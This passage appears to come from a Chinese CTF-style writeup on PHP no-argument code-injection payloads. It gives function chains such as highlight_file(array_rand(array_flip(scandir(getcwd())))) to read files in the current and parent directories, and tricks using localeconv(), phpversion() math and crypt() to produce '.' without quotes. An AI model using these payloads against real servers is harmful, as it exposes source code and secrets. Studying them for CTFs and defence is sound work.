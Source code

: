 ### payload\_5-scandir()

读取文件

读文件有好多操作，

```plain
当前目录：highlight_file(array_rand(array_flip(scandir(getcwd()))));
上级目录文件：highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
以上两个都是随机获取的其实，看脸。
```

可以配合 数组的指针，倒序，等各种方式找到我们的文件。

-   **getcwd()**：取得当前工作目录，成功则返回当前工作目录，失败返回 **`FALSE`**。
-   **dirname()**：返回路径中的目录部分，返回 path 的父目录。如果在 `path` 中没有斜线，则返回一个点（’*.*‘），表示当前目录。否则返回的是把 `path` 中结尾的 `/component`（最后一个斜线以及后面部分）去掉之后的字符串 (也就是上级目录的文件路径)。
-   **chdir()**：改变目录，成功时返回 **`TRUE`**，或者在失败时返回 **`FALSE`**。
-   **scandir()**：列出指定路径中的文件和目录。成功则返回包含有文件名的数组，如果失败则返回 **`FALSE`**。如果 `directory` 不是个目录，则返回布尔值 **`FALSE`** 并生成一条 **`E_WARNING`** 级的错误。
-   **array\_flip()**：交换数组中的键和值，成功时返回交换后的数组，如果失败返回 **`NULL`**。
-   **array\_rand()**：从数组中随机取出一个或多个单元，如果只取出一个 (默认为 1)，**array\_rand()** 返回随机单元的键名。否则就返回包含随机键名的数组。完成后，就可以根据随机的键获取数组的随机值。

**array\_flip()**和**array\_rand()**配合使用可随机返回当前目录下的文件名

**dirname(chdir(dirname()))**配合切换文件路径

#### `.`

##### **current(localeconv())**

-   **localeconv()**：返回一包含本地数字及货币格式信息的数组。而数组第一项就是 `.`

##### **phpversion()**

-   `phpversion()`返回 php 版本，如`7.3.5`
-   `floor(phpversion())`返回`7`
-   `sqrt(floor(phpversion()))`返回`2.6457513110646`
-   `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`
-   `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`
-   `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`
-   `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`
-   `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`.`
-   `var_dump(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`扫描当前目录
-   `next(scandir(chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))))`返回`..`

**floor()**：舍去法取整，**sqrt()**：平方根，**tan()**：正切值，**cosh()**：双曲余弦，**sinh()**：双曲正弦，**ceil()**：进一法取整

##### **crypt()**

```plain
chr(ord(hebrevc(crypt(phpversion()))))`返回`.
```

-   `hebrevc(crypt(arg))`可以随机生成一个 hash 值 第一个字符随机是 $(大概率) 或者 .(小概率) 然后通过 ord chr 只取第一个字符

**crypt()**：单向字符串散列，返回散列后的字符串或一个少于 13 字符的字符串，从而保证在失败时与盐值区分开来。
